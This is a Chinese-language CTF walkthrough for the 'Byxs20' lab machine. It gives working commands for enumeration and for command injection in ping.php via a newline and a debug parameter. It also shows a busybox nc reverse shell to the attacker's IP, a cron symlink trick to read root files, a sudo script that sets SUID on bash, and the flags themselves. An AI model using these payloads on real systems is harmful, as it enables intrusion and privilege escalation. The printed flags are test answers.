 *   **靶机名称:** Byxs20 (内部测试 - 可能发布于 HackMyVm)
*   **难度:** 简单 (Easy)
*   **目标:** 获取 user.txt 和 root.txt 文件中的 flag。
*   **关键点:** Web 命令注入、Cron 任务利用、Sudo 提权

---

## 1. 信息收集 (Enumeration)

初始阶段的目标是尽可能多地了解目标系统。

* **网络发现 (arp-scan):**
  使用 `arp-scan` 扫描本地网络，发现目标靶机的 IP 地址。

  ```bash
  sudo arp-scan -l
  ```

  锁定目标 IP 为 `192.168.205.194`。

* **端口扫描 (nmap):**
  对目标 IP 进行全端口 TCP 扫描，识别开放的服务。

  ```bash
  nmap -p- 192.168.205.194
  ```

  发现开放了两个关键端口：

  *   `22/tcp`: SSH 服务
  *   `80/tcp`: HTTP 服务 (Web 服务器)

* **Web 内容发现 (gobuster):**
  针对 80 端口的 Web 服务进行目录和文件枚举。

  ```bash
  gobuster dir -u http://192.168.205.194 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,md,html,zip,bak
  ```

  发现以下值得关注的路径和文件：

  *   `/index.html`: 网站首页。
  *   `/templates/`: 存在目录列表，包含 `about.html`, `contact.html`, `home.html` 等模板文件。
  *   `/template.php`: 一个 PHP 脚本，似乎用于加载模板。
  *   `/conf/`: 同样存在目录列表，可能存放配置文件。
  *   `/ping.php`: 另一个 PHP 脚本，名字暗示其功能与网络 ping 相关。

## 2. 获取初步立足点 (www-data 权限)

* **分析 Web 功能:**

  *   尝试访问 `/template.php`，发现可以通过 `?page=` 参数加载 `/templates/` 目录下的文件（如 `?page=about` 会包含 `about.php`）。这暗示存在 LFI (本地文件包含) 漏洞。
  *   进一步测试 LFI，尝试读取 `/etc/passwd` (`?page=../../../../etc/passwd`) 失败。错误信息显示脚本在路径末尾强制添加了 `.php` 后缀。
  *   **重要发现:** 尝试包含脚本自身 (`?page=../template`) 也失败了，并返回 `No such file or directory`。这强烈暗示 PHP 配置了 `open_basedir`，限制了文件包含的范围，使得这个 LFI 漏洞难以直接利用来读取敏感文件。

* **探索 `ping.php`:**

  *   直接访问 `ping.php` 返回 "Invalid IP!"。
  *   使用 `ip` 参数 (`ping.php?ip=127.0.0.1`) 可以成功执行 ping 命令。

* **发现隐藏参数 (wfuzz):**
  使用 `wfuzz` 对 `ping.php` 进行参数 Fuzzing，寻找除 `ip` 之外的其他参数。

  ```bash
  wfuzz -u "http://192.168.205.194/ping.php?FUZZ=127.0.0.1" -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt --hc 404 --hw 2
  ```

  发现了一个名为 `debug` 的参数。

* **命令注入 (Command Injection):**
  **核心发现：** 单独使用 `ip` 参数只能执行 ping，单独使用 `debug` 参数（如果有效）也无法直接 RCE。**必须将 `ip` 和 `debug` 参数结合起来**，才能触发命令注入漏洞。
  测试命令注入：使用 `%0A` (URL 编码的换行符) 在 `ip` 参数中附加 `id` 命令，并同时加上 `debug=1` 参数。

  ```bash
  curl "http://192.168.205.194/ping.php?ip=127.0.0.1%0Aid&debug=1"
  ```

  返回的输出包含了 `[*] Debug Mode Activated`、`[+] Raw Command: ping -c 3 127.0.0.1\nid` 以及 `id` 命令的执行结果 (`uid=33(www-data)...`)，确认了命令注入！

* **获取反弹 Shell (Reverse Shell):**
  利用这个命令注入点获取反向 Shell。

  1. 在攻击机上设置 Netcat 监听：

     ```bash
     nc -lvnp 8888
     ```

  2. 构造并发送反弹 Shell 的 payload。使用 `busybox nc` 提高兼容性，并对 payload 进行 URL 编码。

     ```bash
     # Payload: busybox nc [你的攻击机IP] 8888 -e /bin/bash
     # URL 编码后: busybox%20nc%20[你的攻击机IP]%208888%20-e%20%2Fbin%2Fbash
     curl "http://192.168.205.194/ping.php?ip=127.0.0.1%0Abusybox%20nc%20[你的攻击机IP]%208888%20-e%20%2Fbin%2Fbash&debug=1"
     ```

     将 `[你的攻击机IP]` 替换为你的 IP。执行后，`nc` 监听端应收到连接。

* **升级 Shell:**
  为了更好的交互体验，将获取到的基础 Shell 升级为标准的 TTY。

  ```bash
  # 在反弹 Shell 中
  script /dev/null -c bash
  # 按 Ctrl+Z
  # 在攻击机终端
  stty raw -echo; fg
  # 按两次 Enter
  # 回到反弹 Shell
  reset xterm
  export TERM=xterm
  export SHELL=/bin/bash
  stty rows 40 columns 178 # 根据实际终端调整
  ```

  现在你拥有了一个稳定的 `www-data` 权限 Shell。

## 3. 权限提升 (Privilege Escalation)

* **进程监控与 Cron 任务发现 (pspy):**
  上传并运行 `pspy64` 工具来监控系统进程，寻找提权机会。

  1. 在攻击机上开启 HTTP 服务以提供 `pspy64`。

  2. 在目标机 `/tmp` 目录下下载并运行 `pspy64`。

     ```bash
     # 在目标机 www-data Shell 中
     cd /tmp
     busybox wget http://[你的攻击机IP]/pspy64
     chmod +x pspy64
     ./pspy64
     ```

     `pspy64` 的输出揭示了一个以 root 权限 (`UID=0`) 定期执行的 Cron 任务：

  ```
  2025/04/20 09:42:01 CMD: UID=0 PID=658 | /bin/sh -c cp /var/www/html/conf/apache2.conf.bak /etc/apache2/apache2.conf
  ```

  这个任务每分钟会将 `/var/www/html/conf/apache2.conf.bak` 覆盖到 `/etc/apache2/apache2.conf`。由于 `www-data` 用户通常对 `/var/www/html/conf` 目录有写权限，这成为了提权的关键。

* **提权方法 1: Cron + 符号链接任意文件读取**
  利用 Cron 任务覆盖文件的行为，通过创建符号链接来读取任意文件。

  1. **读取 user flag:** 将 `apache2.conf.bak` 链接到 `user.txt`。

     ```bash
     cd /var/www/html/conf
     ln -sf /home/welcome/user.txt apache2.conf.bak
     ```

  2. 等待 Cron 任务执行（最多 1 分钟）。

  3. 读取被覆盖后的 Apache 配置文件，即得到 `user.txt` 的内容。

     ```bash
     cat /etc/apache2/apache2.conf
     # -> flag{user-05659dca555d4ddbc396b319645f3d2a}
     ```

  4. **读取 root flag:** 删除旧链接，创建新链接指向 `root.txt`。

     ```bash
     rm apache2.conf.bak
     touch apache2.conf.bak
     ln -sf /root/root.txt apache2.conf.bak
     ```

  5. 再次等待 Cron 任务执行。

  6. 读取 Apache 配置文件得到 `root.txt` 的内容。

     ```bash
     cat /etc/apache2/apache2.conf
     # -> flag{root-f9ef88715e3bbec612f9f88d64ae3a99}
     ```

* **提权方法 2: Cron 修改配置 + 用户切换 + Sudo 提权**
  这是一个更曲折但同样有效的方法。

  1. **修改 Apache 配置:** 利用 Cron 任务，修改 Apache 的运行用户为 `welcome`。

     ```bash
     cd /var/www/html/conf
     nano apache2.conf.bak
     User welcome
     Group welcome
     ```

  2. 等待 Cron 执行，并让 Apache 服务以新用户身份运行（可以直接`sudo /usr/sbin/reboot`）。

  3. **获取 `welcome` Shell:** 再次使用之前的命令注入获取反弹 Shell。连接后确认用户身份。

     ```bash
     # ... 获取反弹 Shell ...
     id
     # 应显示 uid=1000(welcome) ...
     ```

  4. **检查 Sudo 权限:** 作为 `welcome` 用户，查看其 `sudo` 权限。

     ```bash
     sudo -l
     ```

     发现 `welcome` 可以无密码执行 `/home/welcome/test/test`。

  5. **利用 Sudo 规则:** 由于 `welcome` 可以控制 `test/test` 脚本的内容，可以构造恶意脚本。

  6. 创建脚本，赋予 `/bin/bash` SUID 权限。

     ```bash
     mv /home/welcome/test /home/welcome/test1
     mkdir /home/welcome/test
     echo '#!/bin/bash' > /home/welcome/test/test
     echo 'chmod u+s /bin/bash' >> /home/welcome/test/test
     chmod +x /home/welcome/test/test
     ```

  7. 通过 `sudo` 执行该脚本。

     ```bash
     sudo /home/welcome/test/test
     ```

  8. **获取 Root:** 执行带有 SUID 权限的 `bash`。

     ```bash
     bash -p
     id
     # 应显示 euid=0(root)
     ```

     成功获取 root 权限。

## 4. 获取 Flag

*   **User Flag:** `flag{user-05659dca555d4ddbc396b319645f3d2a}` (位于 `/home/welcome/user.txt`)
*   **Root Flag:** `flag{root-f9ef88715e3bbec612f9f88d64ae3a99}` (位于 `/root/root.txt`)